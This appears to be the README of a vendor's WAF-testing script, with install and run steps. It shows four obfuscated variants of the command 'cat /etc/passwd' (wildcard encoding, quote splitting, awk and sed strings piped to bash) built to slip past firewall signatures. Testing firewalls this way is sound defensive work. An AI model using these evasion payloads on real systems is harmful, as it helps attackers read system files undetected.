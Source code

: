 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Before use, it is recommended to temporarily add the IP address from which testing is carried out to the whitelist.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://img.defcon.ru/store/2020/06/b2c49eec8dce3f156d90bcd35a9f2739.png)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
